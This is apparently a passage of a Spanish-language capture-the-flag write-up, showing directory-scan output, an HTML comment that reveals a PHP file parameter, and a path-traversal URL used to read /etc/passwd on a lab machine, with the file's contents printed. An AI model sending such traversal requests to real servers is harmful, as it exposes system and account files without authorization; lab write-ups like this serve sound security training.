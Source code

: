 ```
===============================================================
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 813]
/.html                (Status: 403) [Size: 277]
/documents            (Status: 200) [Size: 1371]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos de nuevo cosas interesantes, pero entre ellas el directorio llamado `/documents` que si entramos dentro del mismo veremos una serie de archivos, vamos a probar a meternos en los `htmls` pero no veremos gran informacion, ahora si volvemos a `/tools` e inspeccionamos el codigo veremos lo siguiente:

## Escalate user gh0st

```html
<!-- Redimensionar la imagen en check_if_exist.php?doc=keyboard.html -->
```

Veremos esa parte interesante, que nos esta indicando un archivo con extension `.php` a parte de un parametro que por lo que se entiende funciona para realizar una llamada a un archivo, por lo que vamos a intentar realizar un `LFI` a ver si funciona con dicho parametro.

```
URL = http://<IP>/tools/check_if_exist.php?doc=../../../../../../etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
gh0st:x:1001:1001::/home/gh0st:/bin/bash
```
